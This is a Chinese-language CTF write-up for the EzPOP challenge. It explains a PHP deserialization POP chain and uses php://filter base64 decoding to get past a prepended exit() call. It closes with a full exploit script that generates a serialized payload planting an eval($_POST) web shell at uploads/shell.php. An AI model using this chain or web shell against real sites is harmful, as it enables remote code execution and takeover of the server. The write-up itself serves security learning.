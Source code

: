 # \[EIS 2019]EzPOP

## \[EIS 2019]EzPOP

## 考点

* php://filter/write绕过“死亡exit”

## wp

给了源码，返回头看到PHP版本7.3。其实这里不给源码也可以做，用`arjun`可以探测参数，存在参数`src`，传入就可以看到源码了。

![](<../../.gitbook/assets/image (33) (1) (1) (1) (1) (1) (1).png>)

给了源码，一点一点看。首先定义两个类，然后GET的src参数，上传目录`uploads/`，最后反序列化`data`

![](<../../.gitbook/assets/image (20) (1) (1) (1).png>)

确定是反序列化，然后找`__destruct()`作为入口，可以锁定`class A`，然后`$this->autosave`为`false`，然后不断向上调用

![](<../../.gitbook/assets/image (11) (1) (1) (1) (1).png>)

`getForStorage()`那一大块可以写成一段代码，这段代码意思举个例子解释，比如`array("0"=>array("path"=>"a"))`，处理之后就是`array("0"=>"a")`，感觉有点多此一举。再json\_encode一下，变成一个字符串。在`getForStorage()`后执行的是 `$this->store->set()`，由此跳转到`class B`

```php
    function cleanContents(array $contents) {
        $cachedProperties = array_flip([
            'path', 'dirname', 'basename', 'extension', 'filename',
            'size', 'mimetype', 'visibility', 'timestamp', 'type',
        ]);
        foreach ($contents as $path => $object) {
            if (is_array($object)) {
                $contents[$path] = array_intersect_key($object, $cachedProperties);
            }
        }
        return $contents;
    }
  $cache = array("0"=>array("path"=>"a"));
  $cleaned = cleanContents($cache);
  var_dump(json_encode([$cleaned, "2"]));
```

到这可以先写一下Ａ类的序列化

```php
class A{
    protected $store;
    protected $key;
    protected $expire;
    
    public function __construct($store){
      $this->key = 'tmp1';
      $this->expire= 'tmp2';
      $this->store= $store;
    }
}
$b = new B();
$a = new A($b);
$a->cache = array("tmp3");
$a->complete = "tmp4";
```

然后看`class B`的set函数，接收的三个参数分别是`$name`，`$value`，`$expire`，分别与`$a->key`，`json_encode([$a->cache, "2"])`，`$a->expire`相关联。然后把`$expire`转化为整型，用`$this->options['prefix']`拼接`$name`，处理`$filename`，这里感觉也没啥用，对`$filename`和`$expire`处不处理并没有多大影响，更像是从哪个项目里复制出来的。

![](<../../.gitbook/assets/image (12) (1) (1).png>)

然后看一下`$value`的处理，它的值应该是类似于这种`[[{"path":"a"}],2]`，或者是这种`[["a"],2]`，把它作为参数传给`$this->serialize()`，在这个函数里面可以执行任意函数，但是没有函数的参数是像`$value`那种，所以这里最好是保持空过，`$serialize`就可以是`trim`或者`strval`之类的函数

```php
    protected function serialize($data): string {
        if (is_numeric($data)) {
            return (string) $data;
        }
        $serialize = $this->options['serialize'];
        return $serialize($data);
    }
```

接着往后看，这里的if是是否进行数据压缩，`$this->options['data_compress']`置为false，跳过这一步。`sprintf('%012d', $expire)`是把`$expire`左补齐12位，如果`$expire`是11，那么这个结果就是`000000000011`。再看这两行行，就是典型的php://filter的妙用，绕过“死亡exit”。`$data`为要写入的shell，`$filename`为`php://filter/write=convert.base64-decode/resource=shell.php`

```php
        if ($this->options['data_compress'] && function_exists('gzcompress')) {
            $data = gzcompress($data, 3);
        }
        $data = "<?php\n//" . sprintf('%012d', $expire) . "\n exit();?>\n" . $data;
        $result = file_put_contents($filename, $data);
        if ($result) {
            return true;
        }
        return false;
```

在`$data =` 那一行中，可以被base64识别的是`php000000000011exit`这19个字符，要在shell中补字符直到总长度符合base64解码规范

```php
class A{
    protected $store;
    protected $key;
    protected $expire;
    
    public function __construct($store){
      $this->key = 'uploads/shell.php';
      $this->expire= 1;
      $this->store= $store;
    }
}
class B{}
$b = new B();
$b->options['data_compress'] = false;
$b->options['prefix'] = "php://filter/write=convert.base64-decode/resource=";
$b->options['serialize'] = "trim";

$a = new A($b);
/* <?php eval($_POST[1]);?>*/
$a->cache = array("PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+");
$a->complete = 2;
```

如果这样生成代码，得到的value是`[["PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+"],2]`，前面是21个字符，中间补3个，后面补3个，最后cache是`array("aaaPD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+aaa")`

完整代码

```php
<?php
class A{
    protected $store;
    protected $key;
    protected $expire;
    
    public function __construct($store){
      $this->key = 'uploads/shell.php';
      $this->expire= 1;
      $this->store= $store;
    }
}
class B{}
$b = new B();
$b->options['data_compress'] = false;
$b->options['prefix'] = "php://filter/write=convert.base64-decode/resource=";
$b->options['serialize'] = "trim";

$a = new A($b);
/* <?php eval($_POST[1]);?>*/
$a->cache = array("aaaPD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+aaa");
$a->complete = 2;

echo urlencode(serialize($a));
```

![](<../../.gitbook/assets/image (32) (1) (1) (1) (1).png>)

## 小结

1. [谈一谈php://filter的妙用](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)
2. [\[2020 新春红包题\]1](2020-xin-chun-hong-bao-ti-1.md)是它的增强版
